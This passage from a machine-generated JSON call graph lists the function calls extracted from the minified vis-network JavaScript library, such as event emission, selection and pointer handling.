"call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unbindFromRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkSelectionChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commitAndEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkSelectionChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commitAndEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectAdditionalOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "onDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commitAndEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "canvasToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_checkHidePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_checkShowPopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hoverObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getConstructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getEdgeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getEdgeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deselectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_initBaseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getClickedItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removeFromSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getAllNodesOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getEdgesOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDistanceToEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deleteNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deleteEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addToHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_initBaseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_initBaseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addToHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getEdgeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitBlurEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitBlurEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitHoverEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_hoverConnectedEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedNodeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedEdgeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deleteNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "deleteEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getItemsOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getItemsOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mergeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mergeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mergeLow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mergeHigh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pushRun"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mergeRuns"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "forceMergeRuns"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addToOrdering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 